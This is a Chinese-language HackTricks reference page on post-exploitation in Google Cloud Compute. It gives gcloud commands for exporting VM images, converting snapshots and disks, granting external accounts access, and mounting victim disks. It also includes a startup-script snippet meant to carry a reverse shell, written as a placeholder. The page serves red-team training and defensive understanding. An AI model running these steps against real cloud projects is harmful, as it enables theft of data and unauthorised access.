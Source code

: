 # GCP - Compute Post Exploitation

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## Compute

有关 Compute 和 VPC（网络）的更多信息，请查看：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 导出和本地检查镜像

这将允许攻击者**访问已存在镜像中的数据**或**创建运行中的 VM 的新镜像**，并在不访问运行中的 VM 的情况下访问其数据。

可以将 VM 镜像导出到一个 bucket，然后下载并使用以下命令在本地挂载：

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

在执行此操作之前，攻击者可能需要对存储桶的权限，并且**需要对cloudbuild的权限**，因为这是将被要求执行导出的**服务**\
此外，为了使其工作，codebuild SA和compute SA需要特权权限。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` 需要：

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

而SA `<project-id>-compute@developer.gserviceaccount.com` 需要：

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 本地导出和检查快照和磁盘

无法直接导出快照和磁盘，但可以**将快照转换为磁盘，将磁盘转换为镜像**，并按照**前一节**，导出该镜像以在本地检查

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### 通过创建 VM 检查镜像

为了访问**存储在镜像中的数据**或**运行中的 VM 内部**的数据，攻击者可以**创建一个镜像**，并授予外部账户对该镜像的访问权限：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
然后从中创建一个新的 VM：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
如果你无法通过镜像给你的外部账户访问权限，你可以在受害者的项目中使用该镜像启动一个VM，并**让元数据执行反向shell**来访问镜像，添加参数：
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

为了访问**存储在磁盘或快照中的数据，你可以将快照转换为磁盘，将磁盘转换为镜像，然后按照前面的步骤进行操作。**

或者你可以**授予外部账户访问权限**（如果起点是快照，则授予快照访问权限或从中创建磁盘）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**将磁盘附加**到一个实例：
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
将磁盘挂载到虚拟机内：

1. **SSH进入虚拟机**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **识别磁盘**：进入虚拟机后，通过列出磁盘设备来识别新磁盘。通常可以找到类似`/dev/sdb`、`/dev/sdc`等设备。
3. **格式化并挂载磁盘**（如果是新磁盘或原始磁盘）：
* 创建挂载点：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
* 挂载磁盘：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

如果**无法给外部项目访问快照或磁盘的权限**，你可能需要**在与快照/磁盘相同项目的实例内执行这些操作**。

{% hint style="success" %}
学习和练习AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或在**Twitter** 🐦 上关注我们 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交PR分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库。

</details>
{% endhint %}
